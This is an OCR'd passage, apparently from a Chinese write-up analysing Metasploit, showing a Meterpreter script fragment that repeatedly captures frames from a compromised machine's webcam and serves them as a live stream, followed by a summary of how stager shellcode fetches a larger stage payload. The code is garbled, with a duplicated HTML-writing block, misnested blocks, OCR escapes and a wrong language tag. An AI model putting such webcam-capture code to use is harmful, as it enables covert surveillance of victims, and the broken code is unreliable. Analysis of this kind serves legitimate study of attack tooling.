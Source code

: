 ```php
      if(!gui)  
        ::File.open(htmlpath, 'wb' ) do |fd|  
      htmlOut \= "<html><body><img src=\\"webcam-" + iterator.to\_s.rjust(5, "0") + ".jpg\\"></img><script>setInterval('location.reload()',#{interval});</script></body><html>"  
       fd.write(htmlOut)  
        end  
        print\_line( "\[\*\] View live stream at: #{htmlpath}" )  
        Rex::Compat.open\_file(htmlpath)  
        print\_line( "\[\*\] Image saved to : #{imagepath}" )  
      end  
      while true do  
        data \= client.webcam.webcam\_get\_frame(quality)  
        if(gui)  
          sock.write(data)  
        else  
          ::File.open( imagepath, 'wb' ) do |fd|  
            fd.write( data )  
        ::File.open(htmlpath, 'wb' ) do |fd|  
      htmlOut \= "<html><body><img src=\\"webcam-" + iterator.to\_s.rjust(5, "0") + ".jpg\\"></img><script>setInterval('location.reload()',#{interval});</script></body><html>"  
       fd.write(htmlOut)  
        if(saveAll)  
              iterator \= iterator + 1  
              imagepath \= folderpath + ::File::SEPARATOR + "webcam-" + iterator.to\_s.rjust(5, "0") + ".jpg"  
            end  
        end  
      end  
        end  
        select(nil, nil, nil, interval/1000.0)  
      end  
    end  
  rescue ::Interrupt  
  rescue ::Exception \=> e  
    print\_error("Error getting frame: #{e.class} #{e} #{e.backtrace}")  
  end  
  print\_line("\[\*\] Stopping webcam")  
  client.webcam.webcam\_stop  
  sock.close if sock !\= nil  
rescue ::Exception \=> e  
  print\_error("Error: #{e.class} #{e} #{e.backtrace}")  
end
```

七、汇总
----

上述分析msf上线过程主要就两步，第一步运行shellcode（我们称其为stager），第二步通过shellcode拉取stage并运行（运行stage）

stager是一段比较短的代码（通过汇编语言编写），来拉取后面的stage一段比较长的payload。之所以要设计成这种模式，是因为常见的溢出漏洞对内存的通常对内存空间的要求都比较严格。所以引入短的stager来拉取stage。
